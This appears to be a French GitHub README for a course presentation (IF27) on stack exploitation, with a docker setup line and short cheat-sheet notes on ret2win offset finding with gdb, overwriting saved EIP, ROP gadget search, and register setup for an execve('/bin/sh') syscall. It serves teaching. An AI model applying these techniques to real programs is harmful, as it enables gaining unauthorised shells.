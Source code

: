# IF27
Fichiers et programmes de la présentation de IF27

**Ce document contient les fichiers et programmes pour réaliser les exploitattions vues dans la présentation et le rapport de IF27**

*Installation*
git clone https://github.com/arthubhub/IF27.git ; cd docker ; ./dockerMake.sh



*Aide*

# Ret2win :

Trouver l'offset : 
- gdb ./programme
- disass fonction_vulnerable
- b *[adresse après gets()]
- run < A1A2A3A4 ...
- au breakpoint : info frame -> regarder saved eip et en déduire l'offset
Trouver l'adresse de win
- disass win -> prendre l'adresse de la première instruction
- echo -ne "OFFSET\xdd\xcc\xbb\xaa" | ./programme -> remplace saved eip par 0xaabbccdd

# ROPchain :
- trouver les gadgets : ROPgadget --binary ./programme | grep "pop ..x .*; ret"
- mettre /bin/sh à une adresse connue :
pop ebx ; ret
ebx = 0xffffa004
pop eax ; ret
eax = 0x0068732f
mov dword ptr [ebx], eax ; ret

## Le cas de execve :
- execve(”/bin/sh”,0,0)
- le numéro du syscall doit etre dans eax
- x86_32
    - eax=0xB
    - ebx=@ de “/bin/sh”
    - ecx=0
    - edx=0
- x86_64
    - rax=59
    - rdi=@ de “/bin/sh”
    - rsi=0
    - rdx=0
